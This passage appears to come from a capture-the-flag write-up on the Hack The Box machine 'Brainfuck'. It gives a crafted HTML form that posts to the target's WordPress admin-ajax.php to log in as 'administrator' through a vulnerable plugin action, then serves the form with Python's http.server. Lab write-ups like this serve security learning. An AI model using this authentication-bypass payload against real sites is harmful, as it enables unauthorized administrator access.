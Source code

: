 ![Untitled](Untitled%209.png)

Let’s adjust the code and test it out..

Edited code:

```html
<form method="post" action="http://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Make sure to save the file as HTML

I will now spin up a webserver in the same directory as my HTML exploit file using Python

```bash
python3 -m http.server 80
```

I will then browse to it via my web browser

![Untitled](Untitled%2010.png)

When pressing “Login”, the page eventually appears blank, but, the url address has changed

![Untitled](Untitled%2011.png)
